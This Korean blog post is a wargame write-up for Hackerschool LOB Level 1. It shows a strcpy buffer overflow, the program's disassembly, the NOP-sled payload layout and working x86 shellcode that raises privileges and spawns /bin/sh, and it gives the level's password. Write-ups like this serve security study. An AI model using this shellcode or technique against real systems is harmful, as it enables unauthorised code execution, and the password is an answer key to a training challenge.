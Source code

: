 ```yaml
---
date: '2022-10-11'
before : '2022-10-10'
after : '2022-10-12'
title: '시스템 해킹(17) : FTZ LOB LEVEL 1'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에
이거이거 드디어 본방이라고 할 수 있는 FTZ LOB


### 1. Level 1 : Gate -> Gremlin

LOB부터는 딱히 힌트는 제공되지 않는다. 그래도 소스코드야 볼 수 있으니 이미 FTZ에서 익숙해진 우리라면 충분히 해결할 수 있을 것이다.


그런 의미에서 소스코드를 살펴보면, 딱히 어렵지 않다!

```
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
```
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,0x100
0x8048439 <main+9>:     cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    %esp,4
0x804844c <main+28>:    push   0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    %esp,4
0x8048456 <main+38>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:    add    %eax,4
0x804845c <main+44>:    mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    %esp,8
0x804846e <main+62>:    lea    %eax,[%ebp-256]
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   0x80484ec
```
```
0xbffffed4
```
```
256 + sfp4 + ret4 => NOP * 260 + ret4(shellcode)
\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```
비밀번호 : hello bof world

---
## Source

- 해커스쿨 FTZ
- Me!